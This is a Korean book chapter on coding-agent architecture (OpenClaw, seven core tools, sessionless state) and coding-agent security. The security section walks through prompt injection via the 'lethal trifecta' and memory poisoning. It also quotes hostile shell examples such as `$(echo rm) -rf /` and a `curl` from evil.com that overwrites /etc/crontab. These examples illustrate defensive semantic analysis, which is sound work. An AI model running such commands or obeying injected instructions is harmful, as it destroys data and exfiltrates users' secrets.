# 코딩 에이전트와 코드 생성

앞선 장들에서는 컨텍스트 엔지니어링(제2, 3장)과 도구 설계(제4장)를 각각 깊이 다루었다. 이 장에서는 이 구성 요소들을 한데 모아 하나의 핵심 질문에 답한다. **임의의 과제를 처리할 수 있는 범용 에이전트의 아키텍처는 어떤 모습인가?**

답은 이렇다. **개방형 과제를 목표로 하는 범용 에이전트**의 핵심은 하나의 **코딩 에이전트(Coding Agent, 스스로 코드를 작성하고 수정하고 실행할 수 있는 에이전트)**에 **파일 시스템**을 더한 것이다. 파일 시스템은 에이전트가 코드·데이터·기억·중간 결과를 저장하는 작업 공간으로, 프로그래머가 컴퓨터에서 폴더로 프로젝트를 관리하는 방식과 비슷하다. 이 판단은 업계의 실무 검증에서 비롯되었다. Manus에서 OpenClaw에 이르기까지, 성공적인 개방형 과제 범용 에이전트는 동일한 패러다임을 따른다. 소수의 범용 도구(코드 실행, 파일 읽기/쓰기, 검색)로 코딩 에이전트 런타임을 구축하고, 그 위에 브라우저 자동화, 웹 검색 등의 능력 모듈을 겹겹이 쌓아 올리는 방식이다. 이 판단의 적용 경계는 "Manus에서 OpenClaw까지" 절의 끝에서 따로 다룬다.

왜 코드 생성이 이토록 중대한 책임을 질 수 있는가? 코드 생성은 단지 도구상자 속의 한 도구가 아니라, 실행 시점에 새로운 도구와 능력을 동적으로 만들어내는 **메타 능력(meta-capability)**이기 때문이다. 이 장의 후반부("코드: 범용 에이전트의 메타 능력" 절)에서 이 개념과 그것이 발휘되는 여섯 방향을 완전히 전개한다.

코드가 에이전트에 주는 가치는 두 층위에서 나타난다. **사고** 측면에서, 형식화된 코드는 사고를 고도로 엄밀하게 만든다. "나이가 18세 이상이고 실명 인증 완료"를 자연어로 서술하면 여러 해석이 가능하지만, `age > 18 and is_verified`로 쓰면 모호함이 사라진다. **표현** 측면에서, 실행되는 코드 한 조각은 그 자체로 논리적 자기모순이 없음을 증명하며, 실행 결과는 객관적인 옳고 그름의 기준을 제공한다. 이는 자연어로는 불가능한 일이다.

이 장은 먼저 코딩 에이전트의 기초 능력과 범용 에이전트 아키텍처(OpenClaw)부터 시작한 뒤, 이어서 코드 생성이 수학적 사고, 콘텐츠 창작에서 시스템 수준의 메타 능력에 이르기까지 다양한 영역에서의 응용을 보여준다.

## 코딩 에이전트

### 코딩은 에이전트의 기초 능력이다

**코드 생성은 소수의 전문화된 에이전트만의 전유물이 아니라, 모든 범용 에이전트가 갖추어야 할 기초 능력이다.** 현재의 SOTA 모델이라면, 기본적인 코딩 능력을 갖추는 데 복잡한 아키텍처는 필요 없다.

전형적인 과제 하나를 생각해 보자. "저장소에 남아 있는 모든 TODO 주석을 정리해서 우선순위별로 분류하고 이슈를 생성하라." 이 일을 완수하려면 다음이 필요하다. 디렉터리 구조를 둘러보고(ls/glob), 코드를 읽고(read), 파일을 수정하며(edit/write), 명령을 실행하고(bash), 패턴을 찾는다(grep/search). 이 다섯 부류의 조작이 거의 모든 코딩 에이전트의 핵심 동작을 망라하며, 곧이어 전개할 일곱 개 도구가 바로 여기에서 비롯되었다. 엄밀히 말하면 이 다섯 부류의 조작은 자연스럽게 여섯 개 도구에 대응한다. 일곱 번째인 코드 인터프리터는 "코드를 실행한다/계산한다" 부류에 대응하며, 일부 구현에서는 아예 Bash와 합쳐 버리기도 한다. 일곱 개 도구는 정규화된 참조 집합이며, 다섯 부류의 조작과 일대일로 대응할 필요는 없다.

기본적인 코딩 에이전트는 다음 일곱 개의 핵심 도구만 갖추면 된다.

1. **코드 인터프리터(Code Interpreter)**: 격리된 샌드박스 환경(sandbox, 호스트 시스템과 격리된 안전한 실행 공간으로, 그 안에서 코드가 실행되다 오류가 나도 호스트 기기에 영향을 주지 않는다)에서 파이썬 코드를 안전하게 실행한다.
2. **배시 셸(Bash Shell, 명령줄 터미널)**: 터미널에서 명령을 실행한다. 예컨대 테스트 케이스를 돌리거나 특수한 형식의 파일을 처리한다.
3. **파일 읽기 도구**: 코드, 설정, 문서, 로그 등을 읽는다.
4. **파일 쓰기 도구**: 새 파일을 만들거나 기존 파일을 완전히 다시 쓴다.
5. **파일 편집 도구**: 기존 파일의 일부를 수정한다. 코드 유지보수와 반복 개선의 핵심 조작이다.
6. **파일명 검색 도구(Glob)**: 패턴 매칭으로 파일 시스템에서 대상 파일을 빠르게 찾아낸다. 예컨대 `**/*.py`로 프로젝트의 모든 파이썬 파일을 찾는다.
7. **파일 내용 검색 도구(Grep)**: 파일 내용에서 특정 텍스트 패턴을 검색한다. 예컨대 어떤 함수를 호출하는 모든 코드 줄을 찾는다.

이 일곱 개 도구는 완결적이면서도 극히 간결한 도구상자를 이루어, 거의 모든 에이전트 시스템이 저비용으로 통합할 수 있다. 구현상 이들은 모두 제4장에서 소개한 MCP 프로토콜을 통해 표준화된 도구 서비스로 노출될 수 있다. 주의할 점은, 이 도구 집합은 코딩 에이전트 고유의 기본 구성으로서, 제4장에서 호출 방향과 작용 성질에 따라 나눈 다섯 부류의 범용 도구 분류(인식/실행/협업/이벤트 트리거/사용자 소통)와는 다르다. 일곱 개 핵심 도구는 주로 인식과 실행 두 부류를 망라한다. 독자는 이렇게 물을 수 있다. 그렇다면 협업, 이벤트 트리거, 사용자 소통 이 세 부류의 요구는 어떻게 되는가? 코딩 에이전트에서는 이 요구들이 대개 도구 층이 아니라 에이전트 프레임워크가 처리한다. 예컨대 하위 에이전트 위임은 전용 협업 도구가 아니라 프레임워크의 편성 논리가 관리한다.

가장 단순한 과제로 이 일곱 개 도구가 어떻게 협동하는지 살펴보자. 사용자가 "프로젝트의 모든 TODO 주석을 정리해서 목록으로 만들어 줘"라고 말했다고 하자.

```
Agent（사고）：TODO가 포함된 모든 코드 줄을 찾아야 한다.
Agent → Grep("TODO", glob="**/*.py")          # 파일 내용 검색
도구 반환：
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent（사고）：3개의 TODO를 찾았다. 정리해서 파일에 쓴다.
Agent → Write("TODO_LIST.md", content="...")   # 파일 쓰기
도구 반환：파일 생성 완료

Agent：정리를 마쳤다. TODO 항목 3개를 발견했으며, 목록은 TODO_LIST.md에 저장했다.
```

이 과정 전체에서 Grep(내용 검색)과 Write(파일 쓰기) 두 도구만 사용했다. 과제가 더 복잡하다면, 가령 "각 모듈의 TODO 개수를 세서 막대그래프를 그려 줘"라면, 에이전트는 코드 인터프리터로 파이썬 코드를 실행해 통계와 시각화를 수행할 것이다. 일곱 개 도구는 단순하지만, 조합하면 매우 다양한 과제를 완수할 수 있다.

왜 모든 범용 에이전트가 코딩 능력을 갖추어야 하는가? 코드 생성은 단지 프로그램을 작성하는 것이 아니라, 범용적인 문제 해결 수단이기 때문이다. 수학적 추론을 만나면 코드를 작성해 풀이기에 넘겨 정확한 답을 얻을 수 있다. 비즈니스 규칙을 고정해야 할 때 코드는 자연어 서술보다 훨씬 정확하다. 어떤 도구가 부족하면 임시로 하나 작성할 수 있다. 데이터 형식이 변하면 파싱 논리를 동적으로 생성할 수 있다. 이 장의 뒷부분에서 이런 시나리오를 하나하나 전개한다. 기본적인 코딩 능력을 갖춘 에이전트는, 도구상자에 앞서의 일곱 개 단순 도구만 있더라도, 새로운 요구를 만나면 자신의 능력 경계를 동적으로 확장할 수 있다.

### 사례: Manus에서 OpenClaw까지—범용 에이전트의 코딩 커널

Manus로 대표되는 범용 에이전트 제품은 딥 리서치(Deep Research, 심층 조사), 컴퓨터 사용(Computer Use, 컴퓨터 조작), 코딩(Coding, 코드 생성) 세 대 능력을 하나의 시스템 안에 융합한다. 이는 이미 여러 부류의 실무가 반복해서 검증한 통찰을 부각시킨다. **코딩 에이전트에 파일 시스템을 더하는 것이, 개방형 과제 범용 에이전트의 가장 핵심적인 기술 기반**이라는 것이다. 오픈소스 프로젝트인 OpenClaw도 유사한 접근을 채택해, 오픈소스 실무로 이 아키텍처 패러다임을 보여 주었다.

왜 코딩 에이전트가 핵심이지 다른 둘이 핵심이 아닌가? 거의 모든 고효율의 콘텐츠 생성은 결국 코드로 귀결되기 때문이다. PPT는 본질적으로 OOXML(Office Open XML, 마이크로소프트가 제정한 사무 문서 개방 표준) 형식의 코드이고, 워드 문서와 PDF 보고서는 코드로 생성할 수 있으며, 데이터 분석과 시각화는 파이썬 스크립트가 완수하고, GUI 조작에서 성공한 브라우저 조작 시퀀스조차 재사용 가능한 RPA(로봇형 프로세스 자동화, Robotic Process Automation) 코드로 고정할 수 있다(컴퓨터 사용 자체는 제9장에서, 조작 시퀀스의 고정 메커니즘은 제8장에서 다룬다). 딥 리서치의 검색과 정보 종합은 코드 기반의 웹 요청과 파싱으로 구현할 수 있고, 컴퓨터 사용은 범용성은 더 강하지만 비용·지연·안정성 면에서 동일한 조작을 코드나 API로 직접 수행하는 것에 한참 못 미친다. 코드 생성은 효율이 가장 높고, 비용이 가장 낮으며, 재사용성이 가장 강한 능력의 기반이다.





구체적인 실행 흐름으로 이 아키텍처를 이해해 보자. 사용자가 "지난 분기 영업 데이터를 분석해서 요약 보고서를 만들어 줘"라고 요구한다고 하자.

1. **기억 읽기**: 에이전트는 `MEMORY.md`를 읽고, 사용자가 PDF 형식의 보고서를 선호하고 데이터 소스는 구글 시트라는 사실을 발견한다.
2. **도구 호출**: 웹 검색 모듈로 구글 시트 API의 사용법을 알아내고, 코드 실행으로 데이터를 다운로드한다.
3. **코드 작성**: 파이썬으로 데이터 분석 스크립트를 생성한다(pandas로 집계, matplotlib로 시각화).
4. **산출물 생성**: 분석 결과를 `report.pdf`로 쓰고, 차트는 `charts/` 디렉터리에 쓴다.
5. **기억 갱신**: `MEMORY.md`에 "사용자의 영업 데이터는 구글 시트에 있음, ID: xxx"를 기록하여, 다음에는 다시 묻지 않도록 한다.

이 전체 과정에서 파일 시스템은 정보가 흐르는 허브다. 기억은 파일에서 읽고, 산출물은 파일로 쓰이며, 경험도 파일로 저장된다.

**파일 시스템을 에이전트의 중춄로**. OpenClaw의 설계에서 파일 시스템은 단순한 데이터 저장소가 아니다. 그것은 에이전트의 기억, 지식, 능력의 중춄이다. 에이전트의 장기 기억은 `MEMORY.md`(고수준 사실과 사용자 선호)와 날짜별로 보관된 마크다운 로그에 저장된다. 벡터 데이터베이스가 아닌 마크다운을 선택한 이 결정은 반직관적으로 보이지만, 실제로는 대단히 효과적이다. 사용자가 파일을 직접 열어 에이전트의 기억을 읽고 수정할 수 있다(에이전트가 무언가를 잘못 기억했다면 해당 줄을 지우기만 하면 된다). 마크다운은 시간 순서를 자연스럽게 보존하여 의미 검색에서 발생하는 시간 혼동을 피하고, 깃(Git)으로 버전 관리와 롤백도 할 수 있다.

더 중요한 것은, 에이전트가 파일을 쓸 수 있다는 점이다. 이는 곧 파일을 씀으로써 **자기 진화**를 할 수 있다는 뜻이다. 에이전트가 어떤 과제를 처음 수행하면서 이전에 몰랐던 핵심 정보를 발견하면(예컨대 어떤 은행에 전화했더니 신원 확인을 위해 개설 지점 주소를 요구한다는 사실), 그 경험을 지식베이스에 기록하여 다음에 같은 과제를 수행할 때 자동으로 불러온다. 이런 "쓸수록 똑똑해지는" 메커니즘은 본질적으로 제8장이 깊이 다룰 외부화된 학습 패러다임의 구체적 실천이다.

**적용 경계: 어떤 에이전트가 코딩을 핵심 아키텍처로 삼는가**. "코딩 에이전트가 범용 에이전트의 핵심이다"라는 판단은 주로 **개방형 과제를 목표로 하는** 범용 에이전트에 적용된다. 심층 조사, 콘텐츠 생성, 데이터 처리 같은 과제는 경계가 불확실하고 산출물 형태가 다양하다. 이런 시나리오에서는 필요한 도구를 미리 전부 나열할 수 없으며, 코드 생성이라는 메타 능력이 능력 경계를 동적으로 확장하는 가장 경제적인 경로를 제공하기 때문에 아키텍처의 핵심이 된다. 반면 또 다른 부류의 에이전트, 즉 수직 영역의 고객 응대 에이전트나 음성 비서는 과제 공간이 비교적 폐쇄적이며, 핵심 아키텍처가 고정된 비즈니스 프로세스, 영역 도구, 대화 전략을 중심으로 구축된다. 여기서 코드는 아키텍처의 중춄라기보다 도구상자 속의 한 도구에 가깝다(이 장 뒷부분의 τ-bench(고객 응대 시나리오를 모사한 벤치마크, 뒷부분 참조) 예에서 코드가 맡는 역할이 바로 정책 검증 도구다). 그렇지만 후자의 경우에도 코딩은 빼놓을 수 없는 기초 능력이다. 정확한 계산, 데이터 처리, 규칙 검증이 모두 그것 없이는 불가능하다. 이는 바로 앞선 절 "코딩은 에이전트의 기초 능력이다"의 논지와 맞닿아 있다. 코딩을 핵심 아키텍처로 삼을지는 시나리오에 따라 다르지만, 코딩 능력을 갖추는 것은 모든 에이전트의 공통된 최소 요건이다.

### 세션리스(Sessionless) 설계

이어서 "언제든 사용 가능한" 상호작용 방식과 보안 아키텍처라는 두 가지 설계를 논의한다. 겉보기엔 코딩 에이전트 주제와 무관해 보인다. 그러나 이 둘은 에이전트가 코드 실행 환경과 파일 시스템 상태를 어떻게 관리하는지를 직접 결정하며, 이는 바로 코딩 에이전트의 핵심 관심사다. (코딩 에이전트가 어떻게 단계별로 동작하는지를 먼저 알고 싶은 독자는 뒤의 "코딩 에이전트의 전체 흐름" 절을 먼저 읽고 나서, 상호작용과 보안 설계를 보려 이곳으로 돌아와도 좋다.)

OpenClaw는 **세션리스(Sessionless, 무세션)** 설계를 채택한다. 설치, 로그인, "앱 열기" 같은 단계가 없고, 에이전트는 상시 온라인 상태로 머물며 사용자가 이미 쓰고 있는 메시징 플랫폼에서 언제든 메시지를 보내면 응답을 받는다. 이 상호작용 형태와 그 기반이 되는 게이트웨이 메시지 라우팅 및 이벤트 주도 아키텍처는 제4장의 사용자 소통 도구 부분에서 자세히 다루었으므로 여기서는 반복하지 않는다. 강조할 만한 점은 이 형태가 성립하는 전제다. 대언어모델이 이미 하나의 새로운 "지능 기반 층" 역할을 할 만큼 성숙해졌다는 것이다. 전통적인 운영체제가 하드웨어를 가리고 상위 응용에 통일적 추상화를 제공하듯, 대언어모델은 언어 이해와 사고·계획의 복잡성을 가리고 상위 에이전트에 통일된 지능 추상화를 제공한다. 바로 이 기반 층이 있었기에 "상시 대기 + 언제든 응답" 형태를 저비용으로 공학적으로 구현할 수 있었다.

코딩 에이전트에게 세션리스의 진짜 공학적 난점은 **코드 실행 환경과 파일 시스템 상태가 어떻게 메시지 사이를 넘어 살아남는가**이다. 사용자의 두 메시지는 몇 분 간격일 수도, 며칠 간격일 수도 있다. 그런데 에이전트의 작업은 다량의 암묵적 상태에 의존한다. 샌드박스에 설치된 의존성 패키지, 터미널 세션의 작업 디렉터리와 환경 변수, 백그라운드에서 실행 중인 개발 서버, 쓰다 만 파일이 그것이다. OpenClaw의 방식은 상태를 두 층으로 나누어 관리하는 것이다. **파일 시스템 상태는 본질적으로 영속적**이다. 워크스페이스(workspace) 디렉터리는 샌드박스 바깥의 영속적 저장소에 마운트되어, 코드·데이터·중간 산출물이 메시지를 넘어, 샌드박스 재시작을 넘어 손실되지 않는다. 이는 "파일 시스템을 에이전트의 중춄로"라는 말의 또 다른 의미이기도 하다. **프로세스 상태는 필요에 따라 유지하거나 재구축**한다. 샌드박스와 그 안의 터미널 세션은 활성 기간 동안 계속 실행 상태를 유지하여, 매 메시지마다 콜드 스타트를 하고 디렉터리를 다시 바꾸고 가상 환경을 다시 활성화하는 일을 피한다. 유휴 시간이 초과되면 자원을 회수하기 위해 제거하되, 제거 전에 직렬화 가능한 환경 상태(작업 디렉터리, 환경 변수, 백그라운드 과제 목록)를 워크스페이스 파일에 기록해 두고, 다음 깨어날 때 에이전트가 기록에 따라 재구축한다. 이 장 뒷부분의 "명령 실행 환경의 상태 영속화"가 논의하는 영속적 터미널 세션은 바로 이 메커니즘이 단일 과제 안에서 대응되는 것이다. 세션리스는 같은 문제를 메시지를 넘고, 날짜를 넘는 시간 규모로 늘여 놓은 것이다.

세션리스 역시 유지보수가 필요 없다는 뜻은 아니다. 세션리스는 곧 매 사용자 메시지마다 **전체 궤적과 작업 상태를 다시 불러온다**는 뜻이며, 따라서 상태 직렬화 효율과 궤적 압축 전략에 더 높은 요구를 부과한다. 궤적 압축 자체의 설계 원칙은 제2장 "컨텍스트 압축 전략"에서 이미 논의했고, 이 장에서는 세션리스 아키텍처에서의 공학적 트레이드오프에 초점을 맞춘다.

### 코딩 에이전트의 보안

이 절에서는 코딩 에이전트의 보안 방어선을 하나의 완결된 서술 흐름으로 묶는다. 먼저 **위협 모델**을 그려, 어떤 위험이 가장 치명적인지 본다. 이어서 **격리의 최후 방어**로 샌드박스의 네트워크 출구, 파일 시스템과 자원 한도를 논의한다. 그다음 **실행기 방어**로 명령의 의미 분석과, 보안 검사를 "보이지 않게" 만드는 추측적 실행을 다룬다. 마지막으로 **신뢰와 충성도**로, 다자 위임 아래에서 에이전트가 누구를 위해 충성하는지, 그리고 AI가 작성한 코드 자체를 신뢰할 수 없을 때 신뢰 경계를 데이터 층으로 내리는 방법을 다룬다. 이 가운데 위협 모델, 충성도, 신뢰 경계의 논의는 모든 에이전트에 통용되고, 샌드박스와 명령 파싱은 코딩 에이전트 특유의 추가 사항이다.

이런 "주권형 지능체" 패러다임은 또한 심각한 보안 과제를 가져온다. 코딩 에이전트는 파일을 읽고 쓰고, 명령을 실행하고, 네트워크에 접근할 권한을 가지며, 이는 곧 악의적 지시가 주입되면 되돌릴 수 없는 손실이 발생할 수 있음을 뜻한다. 개발자이자 독립 연구자인 사이먼 윌리슨(Simon Willison)은 이 위험을 유명한 "치명적 삼요소"로 요약했다. 세 요소가 모두 갖춰지면 하나의 완결된 공격 폐회가 구성되어 시스템이 고위험 상태가 된다.

1. **사적 데이터에 접근** — 에이전트가 사용자의 파일과 비밀번호 관리자에 접근할 수 있다.
2. **신뢰할 수 없는 콘텐츠에 노출** — 처리하는 이메일과 웹페이지에 악의적 페이로드가 포함될 수 있다.
3. **외부 통신 능력을 보유** — 이메일 발송과 명령 실행이 가능하다.

공격 경로는 이로써 닫힌다. 악의적 지시가 신뢰할 수 없는 콘텐츠에 숨어 에이전트에 진입하고, 에이전트를 조종해 사적 데이터를 읽게 한 뒤, 외부 통신 채널로 빼낸다. 주의할 점은, 삼요소가 모두 갖춰지는 것 자체가 이미 충분히 위험하며 어떤 추가 조건도 필요하지 않다는 것이다. 이 위에, 필자는 네 번째 차원인 **영속 기억**을 보탠다. 이것은 나란히 놓인 네 번째 필요조건이 아니라 공격의 증폭기다. 공격자는 겉보기에 무해한 편견이나 악의적 지시를 에이전트의 장기 기억에 기록하여, 세션을 넘어 잠복시키고 적절한 시점에 발동시킴으로써, 일회성 공격을 장기적 잠복과 증폭으로 끌어올린다.

이 네 점은 네 종류의 경계로 요약할 수 있다. 데이터 경계, 입력 신뢰 경계, 출력 영향 경계, 세션 간 경계다. OpenClaw 같은 전권한 로컬 에이전트는 정확히 네 가지를 모두 갖추며, 따라서 보안 방어가 이런 부류의 에이전트가 정면으로 다루어야 할 핵심 과제가 된다.

이는 또한 폐쇄 소스 상업 에이전트(예: 클로드 카우오크(Claude Cowork, 앤스로픽이 지식 작업을 겨냥한 범용 에이전트로, 클로드 코드의 에이전트적 아키텍처를 재사용해 로컬 파일을 읽고 쓰며 여러 사무용 응용에 걸쳐 다단계 과제를 완수한다))가 보수적인 권한 전략을 선택한 이유이기도 하다. 기술적으로 불가능해서가 아니라, 보안 위험이 너무 크기 때문이다. 프롬프트 주입 위협에 맞서서는 입력 필터링만으로는 기본적으로 막을 수 없다. 중요한 것은 모든 공격을 식별해 내는 것이 아니라, 에이전트가 주입되더라도 위험한 동작을 실제로 실행에 옮길 기회가 없게 만드는 것이다. 방어 체계는 앞선 두 장에 걸쳐 층층이 구축되었다. **컨텍스트 층 방어**로 외부 콘텐츠 출처 표기, 구조화된 역할 격리, 입력 정제가 있고(제2장의 프롬프트 주입 절 참조), **실행 층 방어**로 사이드카(Sidecar) 독립 검토, 휴먼 인 더 루프(Human in the Loop, 인간 감시자), 최소 권한과 권한 분리가 있다(제4장 참조). 동일한 컨텍스트 안에 있는 에이전트는 자신이 주입되었는지 판단하기 어려우므로, 핵심 조작은 반드시 컨텍스트 바깥의 메커니즘이 재검해야 한다는 원칙이 두 장에 걸쳐 관통한다. 이 절에서는 코딩 에이전트 특유의 세 가지 추가 사항만 보탠다.

- **명령 의미 분석** — 셸 명령의 조합 폭발로 키워드 블랙리스트가 무용지물이 되므로, 명령의 실제 효과를 의미 수준에서 이해해야 한다(이 절 뒷부분에서 전개).
- **샌드박스 격리와 네트워크 출구 통제** — 코드 실행은 코딩 에이전트만이 가진 공격면이며, 격리 수준과 출구 전략의 공학적 선택은 이 절 뒷부분에서 다룬다.
- **영속 기억의 세션 간 방어선** — 이 장이 치명적 삼요소 외에 특별히 강조하는 확장 항목이다. 장기 기억에 기록되는 내용은 외부 콘텐츠와 동등한 신뢰 검증을 거쳐야 하며, 악의적 지시가 `MEMORY.md`에 잠복해 장기간 발효되는 일을 막아야 한다.

이 세 가지 추가 사항은 각각 검증, 실행, 데이터 세 층에 자리 잡으며, 앞선 두 장의 방어 체계와 상호 보완된다. 이 전략들이 위험을 완전히 제거하지는 못하지만, 에이전트의 공격면은 줄일 수 있다.

**격리의 최후 방어: 코드 실행 샌드박스의 공학적 선택.** 샌드박스는 하나의 스위치가 아니라 일련의 공학적 결정이다. 제4장에서는 이미 "왜 격리해야 하는가", 격리 메커니즘의 단계별 원리(프로세스 수준 격리, 컨테이너, 마이크로VM의 세 단계 스펙트럼), 그리고 "개인 로컬 머신은 프로세스 수준, 단일 테넌트 클라우드는 컨테이너, 다중 테넌트나 낯선 코드는 마이크로VM/gVisor"라는 선택 법칙을 답했다. 여기서는 이 스펙트럼을 반복하지 않고, 코딩 에이전트를 실제로 구현할 때 피할 수 없으면서 제4장에서 전개하지 않은 네 가지 추가 사항만 보탠다. 네트워크 출구를 어떻게 관리할 것인가, 파일 시스템을 얼마나 마운트할 것인가, 자원을 어떻게 제한할 것인가, 영속 세션과 격리를 어떻게 조화시킬 것인가.

**네트워크 출구 통제**. 가장 쉽게 간과되면서도 가장 치명적인 항목이다. 기본적으로 네트워크를 차단하고, 필요에 따라 화이트리스트 프록시로 제한된 목적지(패키지 관리 소스, 문서 사이트, 과제가 명확히 필요로 하는 API)만 허용한다. 치명적 삼요소의 제3조—"외부 통신 능력을 보유"—를 되짚어 보라. 네트워크 출구 통제는 바로 그것에 대한 실행면 방어다. 프롬프트 주입이 성공하고, 악의적 코드가 샌드박스 안에서 민감 데이터를 읽어 내더라도, 출구가 없으면 빼낼 수 없다. 매 주입을 식별하려 들기보다, 데이터 유출 통로를 끊어 놓는 것이 훨씬 더 확정적인 방어선이다.

**파일 시스템 격리 범위**. 소스 코드 디렉터리는 읽기 전용으로 마운트한다(에이전트는 편집 도구로 코드를 수정하고, 생성된 패치는 검토 후 반영하거나, 사본을 쓰기 가능한 워크스페이스에 마운트한다). 별도의 쓰기 가능 워크스페이스 디렉터리가 산출물과 중간 파일을 담당한다. 자격 증명류 파일(`~/.ssh`, 키, 토큰)은 애초에 샌드박스에 마운트하지 않는다. 보이지 않는 데이터는 유출될 수 없으며, 이는 치명적 삼요소의 제1조에 대응한다.

**자원 한도와 타임아웃**. CPU, 메모리, 디스크 할당량에 더해 경과 시간(wall-clock) 타임아웃을 걸어, 무한 루프, 포크 폭탄(프로세스가 스스로를 미친 듯이 복제하여 시스템을 마비시키는 공격), 무한 디스크 쓰기를 방어한다. 하나의 실무 디테일: 타임아웃과 한도 초과는 에이전트에게 구조화된 오류를 반환해야 한다("120초 초과로 실행이 종료되었으며, 마지막 출력은 다음과 같습니다…")지, 프로세스를 조용히 죽여서는 안 된다. 그래야 에이전트가 다음 차례에 전략을 수정할 기회를 얻는다.

**영속 세션과 격리의 조화**. 이 장 뒷부분의 "명령 실행 환경의 상태 영속화"는 장기간 살아 있는 터미널 세션을 유지할 것을 주장하고, 격리 원칙은 환경을 다 쓰면 버릴 것을 주장한다. 둘 사이에는 긴장이 있다. 조화의 실마리는 이렇다. **세션 보유는 샌드박스 내부에서** 이루어지고, 터미널 세션의 수명은 엄격하게 샌드박스의 수명을 넘지 않으며, 세션 상태는 결코 호스트 기기로 빠져나가지 않는다. 긴 시간 간격을 두고 복구해야 하는 시나리오(앞의 세션리스 아키텍처 등)에서는, 샌드박스의 수명을 무한히 늘리는 대신 샌드박스 스냅샷이나 "워크스페이스 파일 영속화 + 환경을 스크립트로 재구축"으로 상태를 복구한다. 다시 말해, 영속화되는 것은 **감사 가능한 상태 기술**(파일, 스크립트, 목록)이지, 불투명한 실행 중인 프로세스가 아니다.

**보안: 키워드 블랙리스트가 아닌 의미 분석**. 제1장에서 검증 층은 "매칭이 아닌 이해에 기반한" 보안 메커니즘을 채택해야 한다고 언급했는데, 셸 명령 보안 검증은 이 원칙이 가장 도전적인 응용 사례다. 단순한 키워드 블랙리스트는 셸의 조합 폭발을 감당할 수 없다. 명령은 파이프, 서브셸, 변수 전개 등의 방식으로 어떤 정적 규칙이라도 우회할 수 있다(예컨대 `rm`이 금지되면, 공격자는 `$(echo rm) -rf /`로 우회할 수 있다). 생산 수준의 하네스는 의미 분석을 채택한다. 각 명령의 매개변수 유형과 소비 규칙(어떤 플래그가 다음 매개변수를 소비하는지)을 이해하고, "겉보기엔 무해한 플래그가 실은 다음 매개변수를 소비하여 위험한 페이로드를 숨기는" 같은 공격 패턴을 식별한다. 예컨대 `find / -name '*.log' -exec rm {} \;`는 합법적인 `find` 명령의 매개변수 안에 `rm` 삭제 조작을 끼워 넣는다. 또 `curl -o /etc/crontab http://evil.com/payload`는 겉보기엔 파일을 다운로드하지만 실은 시스템의 정기 작업을 덮어쓴다. 의미 분석은 이런 중첩된 위험 조작을 식별할 수 있지만, 단순한 명령 블랙리스트는 잡아내지 못한다. 이런 매칭이 아닌 이해에 기반한 보안 메커니즘이 바로 "제약" 기능의 고차원 구현이다.

**추측적 실행: 보안 검사를 "보이지 않게"**. 이것은 바로 제4장의 사이드카 통제 메커니즘이 사용자 경험 층에서 발휘하는 효과다. 제4장은 왜 핵심 조작을 주 컨텍스트와 독립된 사이드카에 검토를 맡겨야 하는지를 설명했고, 이 절이 관심을 두는 것은 이 검토 층을 사용자가 "대기"로 느끼지 않게 하는 방법이다. 방법은 "보여 주기"와 "허가" 두 일을 나누어 병렬로 처리하는 것이다. 에이전트가 도구 호출을 실행하려 할 때, 시스템은 한편으로 화면에 진행 알림을 먼저 띄우고(예: "`src/main.py` 파일을 읽는 중…"), 다른 한편으로 백그라운드에서 보안 검사를 동시에 돌린다. 여기서 자주 잘못 적용되는 비유를 하나 짚고 넘어가야 한다. 이것은 CPU의 추측적 실행(speculative execution)과는 다르다. CPU는 추측이 틀리면 이미 계산한 결과를 버리고 상태를 롤백하지만, 여기서 먼저 진행되는 것은 **부작용이 없는 UI 알림**일 뿐이다. 어떤 실제 상태도 바꾸지 않으므로, 검사를 통과하지 못해도 롤백할 필요 없이 알림을 "확인을 기다리는 중"으로 바꾸기만 하면 된다. 대부분의 경우, 보안 검사는 사용자가 알아채기도 전에 완료되어 사용자는 추가 지연을 전혀 느끼지 못한다. 빠르게 판정할 수 없을 때만 실제로 멈추어 확인을 기다린다. 이것이 하네스 설계의 최고 경지다. 보안성을 사용자 경험의 희생으로 얻지 않는 것이다.

**에이전트는 누구를 위해 충성하는가: 다자 위임 아래의 충성도.**

앞선 보안 메커니즘이 방어하는 것은 "명령이 나빠지는 것"이다. 그런데 더 미묘한 부류의 보안 문제가 하나 더 있다. **위임자 충성(principal loyalty)**, 즉 **에이전트는 결국 누구 편에 서 있는가**이다. 모델은 훈련 과정에서 "나에게 말을 거는 사람을 위해 최선을 다해 돕는다"는 소박한 기본 원칙을 주입받는다. 그러나 현실의 에이전트는 흔히 **다자 위임(multi-party delegation)** 처지에 놓인다. 주인을 대신해 행동하면서, 이해가 상반되는 제3자와 대면한다. 당신을 대신해 가격을 깎아 주는 에이전트의 맞은편에 앉은 사람은 "도움을 받아야 할 사용자"가 아니라 **교섭 상대**다. 이때 "말을 건 사람을 돕는다"는 것은 위험한 기본 설정이다. 상대가 입을 열기만 하면 에이전트를 포섭할 수 있기 때문이다.

